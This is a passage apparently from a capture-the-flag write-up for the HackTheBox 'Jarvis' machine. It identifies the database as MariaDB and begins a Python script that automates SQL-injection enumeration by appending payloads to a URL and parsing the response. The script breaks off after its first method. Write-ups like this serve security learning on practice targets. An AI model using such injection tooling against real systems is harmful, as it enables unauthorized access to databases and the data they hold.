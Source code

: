 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728194038.png)

- DBMS: MariaDB 10.1.37

**Now, to automate things, I'll write a Python script:**
```python
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup

class Exploit:
    def __init__(self, url):
        self.url = url

    def enumerateDatabase(self, payload):
        print(f'[*] Payload: {payload}')
        sqliUrl = f'{self.url}{payload}'

        respond = requests.get(sqliUrl)
        soup = BeautifulSoup(respond.text, 'html.parser')
        payloadResult = soup.h3.get_text()
        isPayloadResultEmpty = True if len(payloadResult) == 0 else False
        if isPayloadResultEmpty:
            print(f'[-] No result :(')
```